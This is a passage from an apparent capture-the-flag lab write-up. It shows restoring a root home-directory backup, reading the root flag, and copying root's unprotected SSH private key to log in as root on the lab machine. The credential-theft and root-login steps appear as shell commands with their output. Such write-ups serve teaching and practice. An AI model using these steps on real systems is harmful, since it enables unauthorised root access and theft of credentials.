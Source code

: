     ignoring error for /root/.profile: Lchown: lchown /tmp/ioio2/rest/root/.profile: operation not permitted
    ignoring error for /root/.selected_editor: Lchown: lchown /tmp/ioio2/rest/root/.selected_editor: operation not permitted
    ignoring error for /root/.ssh/authorized_keys: Lchown: lchown /tmp/ioio2/rest/root/.ssh/authorized_keys: operation not permitted
    ignoring error for /root/.ssh/id_rsa: Lchown: lchown /tmp/ioio2/rest/root/.ssh/id_rsa: operation not permitted
    ignoring error for /root/.ssh/id_rsa.pub: Lchown: lchown /tmp/ioio2/rest/root/.ssh/id_rsa.pub: operation not permitted
    ignoring error for /root/.ssh: Lchown: lchown /tmp/ioio2/rest/root/.ssh: operation not permitted
    ignoring error for /root/.wget-hsts: Lchown: lchown /tmp/ioio2/rest/root/.wget-hsts: operation not permitted
    ignoring error for /root/config.yml: Lchown: lchown /tmp/ioio2/rest/root/config.yml: operation not permitted
    ignoring error for /root/cron.sh: Lchown: lchown /tmp/ioio2/rest/root/cron.sh: operation not permitted
    ignoring error for /root/root.txt: Lchown: lchown /tmp/ioio2/rest/root/root.txt: operation not permitted
    ignoring error for /root: Lchown: lchown /tmp/ioio2/rest/root: operation not permitted
    There were 24 errors

In the root directory backup we found the flag as planned.

    :::text
    bolt@bolt:/tmp/ioio2$ ls rest
    root
    bolt@bolt:/tmp/ioio2$ ls rest/root/root.txt
    rest/root/root.txt
    bolt@bolt:/tmp/ioio2$ cat rest/root/root.txt
    ntrkzgnkotaxyju0ntrinda4yzbkztgw

But we also found a SSH private key without password that allow us to connect as
root on the box!

    :::text
    bolt@bolt:/tmp/ioio2$ ls rest/root/.
    ./                ../               .bash_history     .bashrc           .cache/           .config/          .gnupg/           .local/           .profile          .selected_editor  .ssh/             .wget-hsts
    bolt@bolt:/tmp/ioio2$ ls rest/root/.ssh/
    authorized_keys  id_rsa           id_rsa.pub
    bolt@bolt:/tmp/ioio2$ ls rest/root/.ssh/
    authorized_keys  id_rsa  id_rsa.pub

Once copied on our local machine.

    :::text
    ssh root@10.10.10.159 -i ./id_rsa_root
    Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

      System information as of Thu Dec  5 18:51:02 UTC 2019

      System load:  0.08              Users logged in:                1
      Usage of /:   5.6% of 61.80GB   IP address for eth0:            10.10.10.159
      Memory usage: 42%               IP address for br-1bad9bd75d17: 172.18.0.1
      Swap usage:   0%                IP address for docker0:         172.17.0.1
      Processes:    170
    Last login: Mon Oct 21 09:53:48 2019
    root@bolt:~#

